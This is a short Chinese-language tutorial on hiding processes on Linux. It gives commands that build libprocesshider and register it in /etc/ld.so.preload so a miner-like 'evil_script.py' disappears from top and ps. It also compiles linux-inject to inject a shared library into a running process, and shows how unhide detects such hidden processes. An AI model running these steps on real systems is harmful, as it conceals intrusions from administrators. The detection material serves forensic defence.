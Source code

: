# 0x05 进程隐藏
### 管理员无法通过相关命令工具查找到你运行的进程，从而达到隐藏目的，实现进程隐藏。
### 第一种方法：libprocesshider
### github项目地址：https://github.com/gianlucaborello/libprocesshider
### 利用 LD_PRELOAD 来实现系统函数的劫持，实现如下：
    # 下载程序编译
    git clone https://github.com/gianlucaborello/libprocesshider.git
    cd libprocesshider/ && make
    # 移动文件到/usr/local/lib/目录下
    cp libprocesshider.so /usr/local/lib/
    # 把它加载到全局动态连接局
    echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
### 测试：运行 evil_script.py
 
### 此时发现在top 与 ps 中都无法找到 evil_script.py， cpu 使用率高,但是却找不到任何占用cpu高的程序。
 
### 如何在Linux中发现隐藏的进程？
### unhide 是一个小巧的网络取证工具，能够发现那些借助rootkit，LKM及其它技术隐藏的进程和TCP / UDP端口。这个工具在Linux，UNIX类，MS-Windows等操作系统下都可以工作。
### 下载地址：http://www.unhide-forensics.info/
    # 安装
    sudo yum install unhide
    # 使用
    unhide [options] test_list
### 使用unhide proc发现隐藏进程evil_script.py，如下图所示：
 
### 第二种方法：进程注入工具linux-inject
### linux-inject是用于将共享对象注入Linux进程的工具
### github项目地址： https://github.com/gaffe23/linux-inject.git
    # 下载程序编译
    git clone https://github.com/gaffe23/linux-inject.git
    cd linux-inject && make
    # 测试进程
    ./sample-target
    # 进程注入
    ./inject -n sample-target sample-library.so
### 验证进程注入成功，如下图所示：
 